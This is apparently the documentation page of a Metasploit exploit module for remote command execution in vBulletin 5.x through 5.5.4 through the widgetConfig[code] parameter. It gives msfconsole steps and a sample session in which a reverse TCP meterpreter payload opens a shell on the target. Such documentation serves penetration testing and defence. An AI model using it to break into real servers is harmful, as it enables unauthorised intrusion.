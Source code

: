 ## Vulnerable Application

vBulletin 5.x through 5.5.4 allows remote command execution via the `widgetConfig[code]` parameter in an `ajax/render/widget_php` `routestring` `POST` request.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/vbulletin_widgetconfig_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

### Targets

```
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Linux (Stager)
  2   Windows (Stager)
  3   Unix (In-Memory)
  4   Windows (In-Memory)
```

## Options

**PHP_CMD**

Specify the PHP function in which you want execute the payload. Default: `shell_exec`

**TARGETURI**

The base URI path of vBulletin. Default: /

### Advanced Options

**ForceExploit**

Override check result.

## Scenarios

A proof of concept was originally published on [seclist.org](https://seclists.org/fulldisclosure/2019/Sep/31).

```
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444 
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Sending stage (38288 bytes) to 192.168.1.25
[*] Meterpreter session 1 opened (192.168.1.13:4444 -> 192.168.1.25:35772) at 2019-10-18 13:53:39 +0400

meterpreter > 
```
